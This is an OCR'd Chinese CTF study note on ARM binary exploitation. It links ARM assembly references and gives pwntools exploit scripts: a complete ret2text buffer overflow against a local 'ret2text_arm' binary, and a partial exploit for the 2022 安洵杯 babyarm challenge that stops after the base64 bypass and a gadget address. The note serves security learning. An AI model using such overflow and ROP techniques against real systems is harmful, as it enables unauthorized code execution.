 ## arm汇编基础

https://www.anquanke.com/post/id/86383

## arm汇编常用指令

⼩⼯具： https://www.jb51.net/softs/10029.html#downintro2 arm常⽤寄存器： https://zhuanlan.zhihu.com/p/634696567

## 例题

ret2text_arm：

![image-20231103010758782](C:\Users\22522\AppData\Roaming\Typora\typora-user-images\image-20231103010758782.png)

exp：

```python
from pwn import *
context(log_level='debug',arch='arm')
pwn='./ret2text_arm'
p=process(["qemu-arm","-L","/usr/arm-linux-gnueabi",pwn])
backdoor=0x0001045C
payload=b'a'*0xc+p32(backdoor)
p.sendlineafter("input:\n",payload)
p.interactive()
```

2022安洵杯babyarm

![image-20231103010918161](C:\Users\22522\AppData\Roaming\Typora\typora-user-images\image-20231103010918161.png)

⾸先⽤ida分析⼀下，需要先绕过⼀个base64的判断，然后到溢出点，溢出量是0x2c.

![image-20231103010939032](C:\Users\22522\AppData\Roaming\Typora\typora-user-images\image-20231103010939032.png)

查看⼀下可⽤的gadget，再到ida⾥看

![image-20231103010959340](C:\Users\22522\AppData\Roaming\Typora\typora-user-images\image-20231103010959340.png)

这⾥是我们可以利⽤的gadget，⼈⻤师傅说反复利⽤csu，但是我实现不了，求教

exp:

```python
from pwn import *
p = process(["qemu-arm","-g", "4444","-L", "/usr/arm-linux-gnueabi/", "./c
hall"])
context.log_level='debug'
context.arch='arm'
elf = ELF('./chall')
libc = ELF('libc-2.27.so')
s = lambda data :p.send(str(data))
sa = lambda delim,data :p.sendafter(str(delim), str(data))
sl = lambda data :p.sendline(str(data))
sla = lambda delim,data :p.sendlineafter(str(delim), str(data)
)
r = lambda num :p.recv(num)
ru = lambda delims, drop=True :p.recvuntil(delims, drop)
itr = lambda :p.interactive()
uu32 = lambda data :u32(data.ljust(4,b'\x00'))
uu64 = lambda data :u64(data.ljust(8,b'\x00'))
leak = lambda name,addr :log.success('{} = {:#x}'.format(name,
addr))
sla('msg> ','s1mpl3Dec0d4r')
movcall = 0x00010ca0
```